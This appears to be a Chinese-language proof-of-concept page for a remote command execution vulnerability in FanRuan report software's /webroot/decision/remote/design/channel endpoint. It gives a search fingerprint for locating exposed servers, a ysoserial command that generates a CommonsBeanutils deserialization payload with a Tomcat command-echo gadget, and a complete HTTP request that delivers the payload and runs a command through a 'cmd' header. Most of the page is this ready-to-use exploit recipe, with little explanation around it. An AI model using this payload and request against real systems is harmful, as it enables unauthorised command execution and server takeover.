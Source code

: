 # 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表

## 网络测绘

```
"Powered by 帆软"
```

## 漏洞复现

登陆页面

![image-20230828143655329](images/image-20230828143655329.png)

验证POC

```
java -jar ysoserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

![image-20230828143710052](images/image-20230828143710052.png)
